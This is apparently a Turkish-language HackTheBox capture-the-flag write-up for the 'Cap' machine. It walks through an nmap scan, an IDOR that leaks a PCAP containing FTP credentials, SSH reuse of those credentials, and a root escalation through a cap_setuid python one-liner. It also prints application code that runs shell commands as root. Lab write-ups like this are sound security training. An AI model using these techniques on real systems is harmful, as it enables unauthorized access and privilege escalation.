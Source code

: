 ```yaml
---
title: 'HackTheBox | Cap WriteUp'
author: appdone
categories: [HackTheBox Machines]
tags: [idor, linux capabilities]
render_with_liquid: false
media_subpath: /images/hackthebox_cap/
image:
  path: logo.webp
---
```


## Özet

Web uygulamasının PCAP dosyalarını indirdiğimiz alanında bir IDOR zafiyetinin olduğunu öğrenecek ve sırasıyla tüm PCAP dosyalarını indirip, inceleyeceğiz. PCAP dosyalarından birinde bulduğumuz kullanıcı bilgileri ile SSH servisine bağlanacak, daha sonra ise python dosyasının setuid yetkisinin olduğunu öğrenecek ve bu yetenekten yararlanarak yetki yükselteceğiz.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sV -sC -T4 10.10.10.245         
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
...
```

Tarama sonucunda üç adet port'un açık olduğunu ve HTTP servisinde çalışan uygulamanın bir yönetim paneli olduğunu öğreniyoruz.

### 80 numaralı port'un incelenmesi

![](1.webp){: width="1200" height="600" }

Web uygulamasında "colorlib" tarafından yapılmış, dört sayfadan oluşan bir güvenlik teması kullanılıyor. "IP Config" ve "Netword Status" sayfasında belirli komutlardan dönen sonuçlar bulunuyor.

![](2.webp){: width="1200" height="600" }

Son sayfada ise PCAP dosyalarını indirebileceğimiz bir bölüm var.

![](3.webp){: width="1200" height="600" }

## Sömürü aşaması

İndirme butonuna tıkladığımızda bizi "/download/4" sayfasına yönlendiriyor. Bu sayfada ise URL adresinde belirtilen numaraya karşılık gelen PCAP dosyasını indiriyor. Numarayı "0" olarak değiştirdikten sonra indirip, wireshark aracılığıyla görüntülediğimizde FTP servisine ait kullanıcı bilgileri ile karşılaşıyoruz.

![](4.webp){: width="1200" height="600" }

FTP servisinde bağlandıktan sonra ise nathan kullanıcısının dizininde olduğumuzu öğreniyoruz ve dizin geçişlerinin açık olduğunu görüyoruz. Haliyle aynı kullanıcı bilgilerini kullanarak SSH servisine bağlanabileceğimizi düşündüm ve bağlandıktan sonra ise ilk bayrağı almak için user.txt dosyasını görüntüledim.

```console
nathan@cap:~$ cat user.txt 
56c***1d8
```

## Yetki yükseltme

### root

Hatırlarsanız, web uygulamasında sistemde bir komut çalıştırdıktan sonra sonuçlarını doğruca ekrana yazdıran bir sayfa vardı. Uygulamanın arka planda ne yaptığını görmek için /var/www/html sayfasına gittiğimizde python'u kullanarak kullanıcı ID'sini 0 yaptığını ve komut çalıştırdığını görüyoruz.

```py
def capture():
        get_lock()
        pcapid = get_appid()
        increment_appid()
        release_lock()

        path = os.path.join(app.root_path, "upload", str(pcapid) + ".pcap")
        ip = request.remote_addr
        # permissions issues with gunicorn and threads. hacky solution for now.
        #os.setuid(0)
        #command = f"timeout 5 tcpdump -w {path} -i any host {ip}"
        command = f"""python3 -c 'import os; os.setuid(0); os.system("timeout 5 tcpdump -w {path} -i any host {ip}")'"""
        os.system(command)
        #os.setuid(1000)
                                                                                                                                                                                              
        return redirect("/data/" + str(pcapid))
```

0 ID'si root kullanıcısına ait olduğundan root yetkisinde komut çalıştırdığını düşünebiliriz. Bunu yapabilmesi için python dosyasına setuid yeteneğinin verilmesi gerekiyor. Kontrol ettiğimizde setuid yeteneğinin olduğunu görüyoruz.

```console
nathan@cap:/var/www/html$ getcap /usr/bin/python3.8
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

Aynı komutun sadece komut çalıştıracağımız alanını değiştirdikten sonra çalıştırdığımızda root kullanıcısına geçiş yapıyor ve son bayrağı kendi dizininden alıyoruz.

```console
nathan@cap:/var/www/html$ python3 -c 'import os; os.setuid(0);os.system("bash")'
root@cap:/var/www/html# cd /root
root@cap:/root# ls
root.txt  snap
root@cap:/root# cat root.txt 
857***bad
```
